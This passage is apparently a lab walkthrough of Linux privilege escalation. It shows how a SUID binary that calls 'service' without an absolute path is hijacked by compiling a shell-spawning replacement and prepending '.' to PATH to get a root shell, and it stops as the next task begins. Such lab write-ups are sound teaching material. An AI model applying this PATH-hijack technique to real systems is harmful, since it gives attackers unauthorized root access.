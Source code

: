 The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:
```
/usr/local/bin/suid-env
```
output:
```
Starting web server: apache2httpd (pid 1759) already running
.
```
Run strings on the file to look for strings of printable characters:
```
strings /usr/local/bin/suid-env
```
output:
```
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```
One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.\
Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:
```
gcc -o service /home/user/tools/suid/service.c
```
Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:
```
PATH=.:$PATH /usr/local/bin/suid-env
```
output:
```
user@debian:~$ PATH=.:$PATH /usr/local/bin/suid-env
root@debian:~#
```
Got root shell 😅

# Task 14 : SUID / SGID Executables - Abusing Shell Features (#1)
The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.
